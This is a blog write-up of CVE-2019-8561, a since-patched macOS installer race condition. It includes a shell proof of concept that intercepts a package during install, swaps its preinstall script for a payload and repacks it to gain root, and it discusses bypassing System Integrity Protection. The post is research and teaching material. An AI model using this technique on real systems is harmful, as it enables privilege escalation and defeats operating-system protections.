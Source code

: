 ```yaml
---
title:		"CVE-2019-8561 Proof of Concept Exploit"
subtitle:	"Privilege Escalation & SIP Bypass 👀"
excerpt:	"In June 2019 at Objective by the Sea v2.0 (OBTS), Jaron Bradley dropped CVE-2019-8561. It was patched in macOS 10.14.4. It's still worth writing about though because it is wonderfully simple and gets us r00t as well as a System Integrity Protection (SIP) bypass."
tags:		[Bug, Proof of Concept, Exploit, Mojave]
---
```


(_N.B This is a half finished post that I'm publishing to share the knowledge and get it out of my drafts_)

In June 2019 at [Objective by the Sea v2.0](https://objectivebythesea.com/v2/) (OBTS), [Jaron Bradley](https://twitter.com/jbradley89) [dropped CVE-2019-8561](https://www.youtube.com/watch?v=5nOxznrOK48). It was patched in macOS [`10.14.4`](https://support.apple.com/en-gb/HT209600). It's still worth writing about though because it is wonderfully simple and gets us r00t as well as a System Integrity Protection (SIP) bypass.

In this post we'll be using [GPG Suite](http://gpgtools.org) and Apple's [Pro Video Formats 2.1](https://support.apple.com/kb/DL1988) as our target installer packages. **This vulnerability has nothing to do with these packages**. GPG Suite happens to be the only application bundled as a package installed on my MacBook and Jaron used Pro Video Formats in his OBTS demo.

# Background

## Packages (`.pkg`) 

Installation packages are directories, that appear as one file (`.pkg`) in Finder, which:

>...contain a product or product component -the package’s payload— to be installed on a computer, and install configuration information that determines where and how the product is installed. [^1]

This is what you see after you double click GPG Suite's `Install.pkg` file.

![no-alignment](/img/posts/cve-2019-8561-poc/gpg-suite.png)

## `installer`

`installer` (`/usr/sbin/installer`) is the system binary responsible for installing packages. You can also use it to install packages from the command line. We can step through how to install GPG Suite via `installer` in `Terminal.app`.

1. Download [GPG Suite](https://gpgtools.org)
2. Mount the DMG
	- `hdiutil attach "$HOME/Downloads/GPG_Suite-2019.2.dmg"`
3. Change into the DMGs directory
	- `cd  "/Volumes/GPG Suite/"`
4. Execute `ls`, you should see a file named `Installer.pkg`
```
0xmachos on 🍎GLaDOS📦 in /Volumes/GPG Suite
$ ls
GPGSuite-dmg.png  Install.pkg       Uninstall.app/
```
6. Tell `installer` which package to install and where
	- `installer -pkg "Install.pkg" -target "/"`


## `system_installd`

### SIP Background

SIP was [introduced in OS X El Capitan](https://support.apple.com/en-hk/HT204899) (`10.11`). It's a security feature which is designed to protect the OS files [on disk and at run time](https://developer.apple.com/library/archive/documentation/Security/Conceptual/System_Integrity_Protection_Guide/Introduction/Introduction.html). 

In short, it prevents modification of certain OS files even by `root`. However Apple still needs a way to update the OS so:  
> System Integrity Protection is designed to allow modification of these protected parts only by processes that are signed by Apple and have special entitlements to write to system files, such as Apple software updates and Apple installers. [^2]

Modification of SIP protected files requires the `com.apple.rootless.install` entitlement. You can see which system binaries have this entitlement by [looking it up](http://newosxbook.com/ent.jl?ent=com.apple.rootless.install&osVer=MacOS13) in [Jonathon Levin](https://twitter.com/Morpheus______)'s entitlements database.

Any Apple signed package/ software will be installed by `system_installd`. I first heard of this binary in Howard Oakley's [How your Mac can download an old ‘security’ update by accident](https://eclecticlight.co/2018/01/17/how-your-mac-can-download-an-old-security-update-by-accident/) post.

We can use Jonathan Levin's tool `jtool` (or `codesign -d --entitlements`) to dump `system_installd` entitlements: 
```
0xmachos on 🍎GLaDOS📦 in ~
$ jtool --ent /System/Library/PrivateFrameworks/PackageKit.framework/Versions/A/Resources/system_installd
...
  <key>com.apple.private.launchservices.cansetapplicationstrusted</key>
  <true/>
  <key>com.apple.rootless.install.heritable</key>
  <true/>
...
```
Any binary with the entitlement `com.apple.rootless.install.heritable` affords child process it spawns the ability to inherit it's `com.apple.rootless.install` entitlement. Thus, any package it installs will have the ability to modify SIP protected files.

[Patrick Wardle](https://twitter.com/patrickwardle) wrote about how this entitlement could be abused to bypass SIP in his 2016 post [[0day] Bypassing Apple's System Integrity Protection](https://objective-see.com/blog/blog_0x14.html).

<!-- ## Back to `system_installd`

We can see this transition from `installer` to `system_installd` by watching `install.log` during the installation of Pro Video Formats. Before opening `ProVideoFormat.pkg` execute:
```
tail -f -n 0 /var/log/install.log
```

```
``` -->


# The Bug

This is a Time of Check Time of Use (TOCTOU) bug within `installer` and `system_installd` (`Package Kit`).

When you initially double click on a `.pkg` and it's loaded by `Installer` there is a small window for an attacker to expand the `.pkg` modify it and re-flatten it. This User Interface (UI) will still show that the package is correctly code signed and `installer` will execute the modified files.

# Proof of Concept Exploit

In theory all we have to do to exploit the TOCTOU bug is: 
1. Monitor `/var/log/install.log` for a package being installed
  * Extract the package location
2. Use `pkgutil` to expand the package
3. Modify the package contents to add a payload
4. Use `pkgutil` to flatten the package
5. Wait for the installer to finish

```shell
expand_path="/tmp/Install"
# Location to expand pkg into

# Detect package install starting
( tail -f -n 0  /var/log/install.log & ) | grep -q 'Opened from:' 

# Extract package location
pkg_path=$(grep 'Opened from:' /var/log/install.log | tail -1 | cut -d ' ' -f7-)

# Expand package 
pkgutil --expand "${pkg_path}" "${expand_path}"

# Replacing the preinstall script with our payload
preinstall_file="${expand_path}/preinstall.pkg/Scripts/preinstall"

cat <<EOF > "${preinstall_file}"
#!/bin/bash

touch /var/test
chmod +x /var/test
EOF

# Flatten the package
pkgutil --flatten  "${expand_path}" "${expand_path}.pkg"
```

In reality it's slightly more complicated, but not by much. There are some permission issues that need to be accounted for and a separate TOCTOU issue that affects how much space the system thinks the target disk image (`.dmg`) has, if your target package comes on a disk image. We also need to work around read-only disk images.

You can view my full, working, r00t Proof of Concept (PoC) script [`gpg_poc`](https://github.com/0xmachos/CVE-2019-8561/blob/master/gpg_poc) for all the details.

# SIP Bypass

As mentioned above any binary with the entitlement `com.apple.rootless.install.heritable` affords its child process the ability to bypass SIP. So in theory all we need to do is find a package with with that entitlement and exploit the same TOCTU bug. 

Jaron already did the hard work, he found that the Final Cut Pro Video Formats package has `com.apple.rootless.install.heritable`. This post is half finished so I never managed to get a SIP bypass PoC working. You need to monitor for different events in `/var/log/install.log` as the TOCTU bug affects `system_installd` slightly differently than `installer`.

For the sake of completeness I have published my half done, not currently working, SIP bypass PoC [`sip_poc`](https://github.com/0xmachos/CVE-2019-8561/blob/master/sip_poc). 


# Conclusion

Crazy simple bug with big impact. The exploitation is very noisy give that it requires you to modify multiple files on disk, re-size a DMG and change file permissions. Still a phenomenal find from Jaron though.

Go watch [Jaron's](https://twitter.com/jbradley89) OBTSv2 talk "[Bad Things in Small Packages](https://www.youtube.com/watch?v=5nOxznrOK48)" where he demonstrates getting r00t, bypassing SIP and explains the bug better than I have above.

You can find all my code for this at [0xmachos/CVE-2019-8561](https://github.com/0xmachos/CVE-2019-8561).

{% include figure image_path="/img/dogs/dachshund02.jpg" alt="Golden Dachshund laying on grass" caption="Photo by Caleb Moreno on Unsplash" %}



<!-- I've [previously written about OBTS v2.0](https://0xmachos.github.io/2019-06-10-Objective-by-the-Sea-2.0/) and my favourite talks. -->

[^1]: [Software Delivery Legacy Guide: What is a Package?](https://developer.apple.com/library/archive/documentation/DeveloperTools/Conceptual/SoftwareDistribution4/Managed_Installs/Managed_Installs.html#//apple_ref/doc/uid/TP40004615-CH6-SW9)
[^2]: [About System Integrity Protection on your Mac](https://support.apple.com/en-hk/HT204899)

